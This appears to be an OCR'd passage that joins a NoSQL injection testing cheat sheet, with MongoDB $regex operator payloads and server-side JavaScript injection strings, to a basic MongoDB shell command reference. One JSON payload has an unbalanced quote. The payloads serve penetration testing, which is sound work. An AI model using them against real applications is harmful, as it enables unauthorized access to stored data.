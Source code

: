 - `param[$regex]=^XYZ.*$`

#### JSON

- `{param: {$regex: '^XYZ.*$}}`


### Server-Side JavaScript Injection Payloads:

- ```' || true || ''=='```
- ```" || true || ""=="```

---

This cheat sheet contains a (non-comprehensive) list of payloads you may use when testing an application for NoSQL injection vulnerabilities. The most important qualities for finding vulnerabilities are creativity and the ability to adapt, so it is possible that these payloads will not work in your specific scenario, but something else does.



MongoDB Cheat Sheet
Show All Databases
show dbs
Show Current Database
db
Create Or Switch Database
use acme
Drop
db.dropDatabase()
Create Collection
db.createCollection('posts')
Show Collections
show collections
Insert Row
db.posts.insert({
  title: 'Post One',
  body: 'Body of post one',
  category: 'News',
  tags: ['news', 'events'],
  user: {
    name: 'John Doe',
    status: 'author'
  },
  date: Date()
})
Insert Multiple Rows
db.posts.insertMany([
  {
    title: 'Post Two',
    body: 'Body of post two',
    category: 'Technology',
    date: Date()
  },
  {
    title: 'Post Three',
    body: 'Body of post three',
    category: 'News',
    date: Date()
  },
  {
    title: 'Post Four',
    body: 'Body of post three',
    category: 'Entertainment',
    date: Date()
  }
])